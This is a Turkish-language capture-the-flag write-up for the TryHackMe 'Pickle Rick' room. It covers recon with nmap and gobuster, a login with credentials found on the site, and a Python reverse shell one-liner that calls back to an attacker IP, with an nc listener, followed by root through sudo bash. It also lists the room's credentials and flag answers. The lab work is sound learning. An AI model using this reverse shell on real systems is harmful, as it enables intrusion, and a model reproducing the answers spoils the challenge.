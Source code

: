 ```yaml
---
title: Pickle Rick
date: 2024-03-27 13:10:12 
categories: [TryHackMe]
tags: [Easy,Dirbuster,Linux]  
image: images/rick.webp
---
```


This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

---

<a href="https://tryhackme.com/room/picklerick">Pickle Rick</a>

---



Rick'in ihtiyacı olan ilk malzeme nedir?


Her zamanki gibi nmap taraması ile başlayalım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a1.png?raw=true)

80 portunda web sitesi çalıştığnı görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a2.png?raw=true)

Sayfanın kaynak koduna baktığımız zaman kullanıcı adını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a3.png?raw=true)

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a4.png?raw=true)

robots.txt login.php ve portal.php sayfalarını bulduk.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a5.png?raw=true)

robot.txt yi açtığımızda karşımıza çıkan sayfa. Şifre olabileceğini düşünerek login sayfasına giriş yapmayı deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a6.png?raw=true)

Giriş yapmayı başardım.
> R1ckRul3s:Wubbalubbadubdub

Komut çalıştırmayı deneyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a7.png?raw=true)
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a8.png?raw=true)

Bu dosyanın içeriği cat komutu ile kontrol edilmek istendiğinde komut engelleniyor

Konsola python reverse shell komutu yazmayı deniyorum. [Reverse Shell Generator](https://www.revshells.com/) kullanıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a9.png?raw=true)

````python
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
````

netcat çalıştırmayı unutmayın.

````bash
nc -nvlp 1234
````

Makineye girmeyi başardık.

Bu aşamadan sonra makinede araştırma yapmak kalıyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a10.png?raw=true)


İlk sorunun cevabına ulaşıyoruz.
> mr. meeseek hair

Devam edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a11.png?raw=true)


İkinci sorunun cevabına ulaştık.

>1 jerry tear

Son sorunun cevabı root dizininde. Root dizinine ulaşmak içinde root yetkisine sahip olmak gerekir. Bu sistemde yetki yükseltme komutları için hiçbir önlem alınmamış. O yüzden herhangi bir root yükseltme komutu ile yetki yükseltilebilir. Ben root yükseltmek için sudo bash komutunu kullandım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a12.png?raw=true)

Son sorunun cevabını buluyoruz.

> fleeb juice


![fsoc](/images/fsoc.gif)
